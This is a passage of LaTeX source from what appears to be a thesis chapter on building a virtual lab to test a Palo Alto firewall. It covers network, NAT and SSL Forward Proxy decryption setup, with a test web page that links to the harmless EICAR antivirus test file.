 
\includegraphics[width=13cm]{img/https_proxy_interception.png}
 % https_proxy_interception.png: 1255x583 px, 96dpi, 33.20x15.42 cm, bb=
 \caption{\glsxtrshort{https} Proxy Interception\protect\cite{https-interception}}
 \label{fig: HTTPS Proxy Interception}
\end{figure}


\chapter{The Experiment}
\section{Methodology}

In order to verify the firewall effectiveness a virtual laboratory will be setup.

The virtual laboratory is deployed through Virtual Machines, since the Palo Alto Firewall is very resource intensive the hypervisor of choice has been \glsxtrshort{kvm}\cite{kvm}, with libvirt/qemu\cite{libvirt}\cite{qemu} as the userspace component.

Instead of direct access to the Internet the VM clients will connect to the host machine, the host will run Apache2\cite{apache2} configured with Let's Encrypt\cite{letsencrypt} certificates as the \glsxtrshort{https} server, it will host a simple web page with a link that points to malware.

\begin{figure}[h!]
 \centering
 
\includegraphics[width=13cm]{img/webpage.png}
 % webpage.png: 613x59 px, 96dpi, 16.22x1.56 cm, bb=
 \caption{The web page the client will connect to}
 \label{fig: webpage}
\end{figure}

\begin{lstlisting}[language=html]{}
 <html>
    <body>
        <h1>Download virus here:
            <a href="./eicar.com">
                Click Here!
            </a>
        </h1>
    </body>
</html>
\end{lstlisting}

\begin{center}
The Source Code of the web page
\end{center}


The Malware in question is a test file created by ``eicar.org'', the European Institute for Computer Antivirus Research, which is purposely made to test the response of antivirus programs\cite{eicar}, in this case Palo Alto's Firewall.

The 2 Firewall clients on the other hand will be running  Kali Linux, an operating system designed for penetration testing, since it comes preinstalled with useful tools.

The clients have different purposes, one will be used as a standard client and the other as a malicious intruder which will deploy the network attack.

\begin{figure}[h!]
 \centering
 
\includegraphics[height=13cm]{img/Network_Plan.png}
 % Network_Plan.png: 292x521 px, 72dpi, 10.30x18.38 cm, bb=
 \caption{The Network Plan}
 \label{fig: network-plan}
\end{figure}



\newpage

\section{Setting up the Firewall}

The first thing to do would be setting up the Firewall.

Since it's a simple network the firewall was setup with only 2 network interfaces, a \glsxtrshort{wan} connected interface (in this case the host) and a \glsxtrshort{lan} connected interface, where the clients are connected.

\begin{figure}[!hb]
 \centering
 
\includegraphics[width=13cm]{img/network_config.png}
 % network_config.png.eps: 874x111 px, 72dpi, 30.83x3.92 cm, bb=0 0 874 111
 \caption{The Network Interfaces' Configuration in Palo Alto \glsxtrshort{fw}}
 \label{Network Interfaces Configuration}
\end{figure}


The two interfaces must be configured to be part of a Virtual Router, so that the packets can be forwarded to each other.

\begin{figure}[!hb]
 \centering
 
\includegraphics[width=13cm]{img/virtual_router.png}
 % virtual_router.png.eps: 600x373 px, 72dpi, 21.17x13.16 cm, bb=0 0 600 373
 \caption{The Virtual Router Configuration in Palo Alto \glsxtrshort{fw}}
 \label{Virtual Router Configuration}
\end{figure}


We need to create some policies in order for the inside network to reach the \glsxtrshort{wan} area.

\begin{figure}[!hb]
 \centering
 
\includegraphics[width=13cm]{img/Firewall_Policy.png}
 % Firewall_Policy.png.eps: 622x216 px, 72dpi, 21.94x7.62 cm, bb=
 \caption{The Firewall Policies in Palo Alto \glsxtrshort{fw}}
 \label{Firewall Policies}
\end{figure}


Since the hosts outside of the internal network have no way to know where the source address is coming from, the next step is configuring \glsxtrshort{nat} Masquerading, It's a technique in which \glsxtrshort{ip} addressed are mapped from one realm to another, in this case from the internal network to the external one and vice-versa\cite{rfc2663}.

\begin{figure}[!hb]
 \centering
 
\includegraphics[width=13cm]{img/NAT_Masquerade.png}
 % NAT_Masquerade.png.eps: 514x145 px, 72dpi, 18.13x5.12 cm, bb=
 \caption{\glsxtrshort{nat} Masquerading in Palo Alto \glsxtrshort{fw}}
 \label{NAT Masquerade}
\end{figure}


\newpage

\section{Setting up Decryption}

After the firewall has been configured, much like \glsxtrshort{nat}, the firewall stands in the middle between outbound and inbound connections.

The firewall connects to the server as the client would, representing it, and uses its own certificates to encrypt the connection between itself and the client making it so that the client believes to communicate directly with the server in a transparent way.

In order to do that we must generate our self signed certificate, and enable the option to Forward Trusted and/or Untrusted Certificates.

\begin{figure}[!hb]
\centering
 \subfloat[The Certificate Generation Menu in Palo Alto FW\label{Certificate Generation}]{
 
\includegraphics[width=6cm]{img/Certificate_generation.png}}
 \hspace{0.5cm}
 \subfloat[The Certificate Settings Menu in Palo Alto FW\label{Certificate Settings}]{
\includegraphics[width=6cm]{img/Certificate_settings.png}}
 \caption{\glsxtrshort{ssl}/\glsxtrshort{tls} Certificates configuration in PanOS}\label{Certificates}
\end{figure}

\newpage

After the Certificate Generation we need to have a working Decryption Profile, Palo Alto Firewall provides by default a working one but one could create a customised one if needed.

\begin{figure}[!hb]
    \centering
     
\includegraphics[width=13cm]{img/decryption_options.png}
    	\caption{A few of the many options configurable for Decryption}\label{Decryption Options}
\end{figure}

\newpage

Finally we can create a Decryption Policy, as with every other Firewall Policy, the source and Destination traffic must be selected, in this case any type of traffic, and then the decryption policy option, there are 3 types of Decryption available in Palo Alto \glsxtrshort{fw}: \verb|SSL Forward Proxy|, \verb|SSL Inbound Inspection|, \verb|SSH Proxy|

In this case an \glsxtrshort{ssl} Forward Proxy will be used as it's a general approach which works for every \glsxtrshort{ssl}/\glsxtrshort{tls} based server without any need to import the private key from external servers.

\begin{figure}[!hb]
\centering
